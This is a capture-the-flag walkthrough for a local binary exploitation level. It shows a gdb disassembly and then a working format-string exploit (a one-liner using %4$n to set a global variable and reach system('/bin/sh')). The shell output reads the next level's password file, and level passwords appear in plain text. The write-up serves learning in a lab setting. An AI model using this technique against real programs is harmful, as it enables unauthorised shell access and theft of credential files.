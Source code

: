 ```bash
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    eax,ds:0x8049880
   0x080484e9 <+69>:	mov    edx,eax
   0x080484eb <+71>:	mov    eax,0x8048600
   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:	mov    DWORD PTR [esp],eax
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
(gdb) info variables m
All variables matching regular expression "m":
0x0804988c  m
```

Our input begins on the **4th** "argument" of `printf`, so we can specify the address where we want to store the **number of characters** on our input and use `%4$n`.

We need the *global variable* `m` (in the address `0x0804988c`) to be equal to *64* to get access to the shell with `system("/bin/sh")`. So in order to write the number *64* on the variable, we can use the `%n` specifier and compose an *input string* of *64* bytes or characters.

```bash
0x0804988c --> \x8c\x98\x04\x08
\x8c\x98\x04\x08 + padding of 60 characters + %4$n
```

### Solution

Connect with `ssh -p 4243 level3@localhost`
Enter the password `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`

We can execute the `printf` buffer to store the number *64* on the address `0x0804988c` where the `m` variable is with this line. Of course, because we are running a shell through a pipe, we can keep the `stdin` open like the same trick from the last level:
```bash
(printf '\x8c\x98\x04\x08%-60s' && echo '%4$n' ; cat ) | ./level3
�                                                            
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```